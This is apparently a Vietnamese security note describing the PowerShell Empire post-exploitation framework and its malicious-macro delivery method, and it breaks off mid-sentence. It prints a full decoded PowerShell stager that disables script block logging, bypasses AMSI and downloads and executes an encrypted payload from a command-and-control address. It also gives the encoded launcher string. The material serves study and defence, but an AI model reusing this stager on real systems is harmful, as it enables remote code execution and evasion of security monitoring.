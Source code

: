 # Powershell Empire

## Tổng quan
* Là một công cụ thực thi hoàn toàn trên powershell và công dụng phần nhiều nằm ở các tính năng mà nó có thể khai thác ở máy nạn nhân sau xảy ra tấn công (post-exploitation), được xây dựng trên các giao tiếp bảo mật bằng mật mã và kiến trúc linh hoạt
* Đây là một công cụ mã nguồn mở, được sự đóng góp của nhiều người.
* Empire cho khả năng chạy Powershell mà không cần không cần phải truy cập vào máy tính local và chạy file powershell.exe hay kích hoạt powershell tại màn hình giao diện của máy victim.
* Sau khi thực hiện exploit thành công, các modules có thể được triển khai một cách nhanh chóng, từ việc có thể sử dụng keylogger cho đến mimikatz và tất cả được gói gọn trong một framework.

## Thực hiện tấn công
* Powershell Empire cho phép tạo ra một macro độc hại và được attacker chèn vào một tệp văn bản (.doc hoặc .docx). Khi người dùng mở tệp trên, máy attacker sẽ chạy powershell script được mã hóa và tạo một kết nối tới máy attacker. Khi đó attacker có thể thực hiện các cuộc tấn công Remote Command Execution.
* Ví dụ bên dưới là đoạn mã hóa base64 đã được giải mã:
```
If($PSVersiOnTablE.PSVeRSioN.MAjoR - gE 3) {
  $GPF = [rEF].AssEmBly.GeTTYpE('System.Management.Automation.Utils')."GeTFIE`lD" ('cachedGroupPolicySettings', 'N' + 'onPublic,Static');
  IF($GPF) {
    $GPC = $GPF.GETVALUE($NULl);
    IF($GPC['ScriptB' + 'lockLogging']) {
      $GPC['ScriptB' + 'lockLogging']['EnableScriptB' + 'lockLogging'] = 0;
      $GPC['ScriptB' + 'lockLogging']['EnableScriptBlockInvocationLogging'] = 0
    }
    $Val = [CollECtIOns.GenerIC.DICtIoNary[STRinG, SYSTEm.OBJeCT]]::nEW();
    $VaL.Add('EnableScriptB' + 'lockLogging', 0);
    $vAl.ADd('EnableScriptBlockInvocationLogging', 0);
    $GPC['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB' + 'lockLogging'] = $Val
  } Else { [ScRiptBLock]."GetFiE`lD" ('signatures', 'N' + 'onPublic,Static').SeTVaLUE($nULl, (NeW - ObJECT COlLECtionS.GENeriC.HashSET[StRInG]))
  } [REf].ASSEMBLy.GETTYPe('System.Management.Automation.AmsiUtils') | ?{
    $_
  } | %{
    $_.GETFiElD('amsiInitFailed', 'NonPublic,Static').SeTValuE($nUlL, $True)
  };
};
[System.Net.SERVicEPOIntMAnaGEr]::ExPecT100CoNtinuE = 0;
$Wc = NEW - ObjEct SYSteM.NeT.WebClIEnt;
$u = 'Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
$wc.HeaDeRS.ADD('User-Agent', $u);
$WC.PrOxY = [SysteM.NeT.WebReQUest]::DEfaUlTWebPROxY;
$wC.PrOXY.CrEDEntiaLs = [SyStem.NET.CredeNtIalCAcHE]::DeFAULTNETWORKCreDentIalS;
$Script: Proxy = $wc.Proxy;
$K = [SYSTeM.TExt.EncoDiNG]::ASCII.GetByTES('LlnFf+C*>o.m5T;KqEVIp[^_tc/NP(H}');
$R = {
  $D,
  $K = $ArGS;
  $S = 0..255;
  0..255 | %{
    $J = ($J + $S[$_] + $K[$_ % $K.CoUnT]) % 256;
    $S[$_],
    $S[$J] = $S[$J],
    $S[$_]
  };
  $D | %{
    $I = ($I + 1) % 256;
    $H = ($H + $S[$I]) % 256;
    $S[$I],
    $S[$H] = $S[$H],
    $S[$I];
    $_ - BXor$S[($S[$I] + $S[$H]) % 256]
  }
};
$ser = 'http://192.168.1.11:8080';
$t = '/admin/get.php';
$wC.HEAdERs.AdD("Cookie", "session=nGfi4abzEOCKLrLbLTJ9WBrGQME=");
$DATa = $WC.DOwNlOadDaTA($Ser + $t);
$IV = $DaTA[0..3];
$DATa = $DAta[4..$DATa.LENgth]; - JOin[CHAR[]]( & $R $Data($IV + $K)) | IEX
```
* Khi tạo file mã độc cho phép ta tùy chọn các thông số về việc có yêu cầu mã hóa đoạn mã độc gửi kết nối đến máy attacker hay không (nếu không sẽ không có tham số **-enc**).
* Do đó ta có thể thấy laucher string **powershell -noP -sta -w 1 -enc** có thể được thay đổi. T
